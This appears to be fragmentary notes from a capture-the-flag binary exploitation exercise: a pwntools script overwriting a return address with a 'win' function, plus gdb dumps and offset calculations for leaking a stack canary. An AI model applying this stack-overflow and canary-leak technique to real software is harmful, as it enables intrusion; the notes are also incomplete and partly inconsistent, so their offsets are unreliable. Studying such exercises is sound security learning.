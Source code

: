 ```


res = io.recvlines(1)
print("____________________________________")
print(res)

le = p64(int(win_addr, 16))
be = p64(int(win_addr, 16), endianness="big")
payload = b"A" * BUFF_SIZE + le
print(f"Sending payload: {payload}")
io.sendline(payload)

res = io.recvlines(1)
print("____________________________________")
print(res)


io.interactive()

```

# stack-dump

p prints the address at 0x0000 7fff ffff d888

0x00007fffffffd890

The win function is at:
0x00000000004012f6    36 FUNC    GLOBAL DEFAULT   15 win

000000000040148f                        fread(&buffer_64bit, 1, (int64_t)atoi(&buffer_64bit), stdin);
This puts the size of len = atoi(&buffer_64bit) into the buffer_64bit[48]

00000000004012f6    36 FUNC    GLOBAL DEFAULT   15 win
stack frame size is 0x7fffffffd930 - 0x7fffffffd8d0 = 96 bytes

The canary is at: rbp - 0x18
qword [rbp-0x18 {var_20}]   , rax
buffer is at  =>   sub    rsp, 0x58
offset from leaked address to stack canary is:
(0x7fffffffd918 - 0x7fffffffd8d7) = 65 bytes
(canary) - leaked_addr

(gdb) x/2gx $rbp
0x7fff5b781290: 0x00007fff5b7812b0      0x0000000000401598
(gdb) x/14gx $rsp

The input case  used to add the address of the canary and leak it!

Then the dump case used to leak the canary

then read the contents of the canary
